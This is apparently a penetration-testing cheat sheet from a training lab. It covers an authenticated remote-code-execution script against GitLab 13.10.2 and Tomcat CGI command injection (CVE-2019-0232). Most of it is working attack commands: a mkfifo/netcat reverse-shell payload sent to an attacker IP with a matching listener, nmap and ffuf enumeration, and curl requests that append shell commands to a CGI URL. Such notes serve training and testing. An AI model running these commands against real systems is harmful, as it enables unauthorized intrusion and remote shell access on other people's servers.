 #### Authenticated RCE against v13.10.2 and earlier
```Shell
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
```

#### Start a netcat listener
```Shell
nc -lnvp 8443
```
## Attacking Tomcat CGI (CVE-2019-0232)
- Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected
#### Example URL
```Shell
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
```
Here, the action parameter is set to title, indicating that the script should search by book title. The query parameter specifies the search term "the great gatsby."
### Enumeration to identify vulnerable Tomcat CGI
#### Nmap scan
```Shell
nmap -p- -sC -Pn 10.129.204.227 --open 
```
Output:
```
<SNIP>
PORT      STATE SERVICE
<SNIP>
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
<SNIP>
```
Apache Tomcat/9.0.17 running on port 8080 running
#### Finding a CGI script using ffuf to fuzz after the `/cgi`
```Shell
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```
For .cmd

```Shell
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```
For .bat
### Exploitation
#### Appending commands in the URL
```Shell
curl http://10.129.204.227:8080/cgi/welcome.bat?&dir
```
#### Examine environment variables
```Shell
curl 'http://10.129.205.30:8080/cgi/welcome.bat?&set' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1'
```
Output:
```
<...SNIP...>
```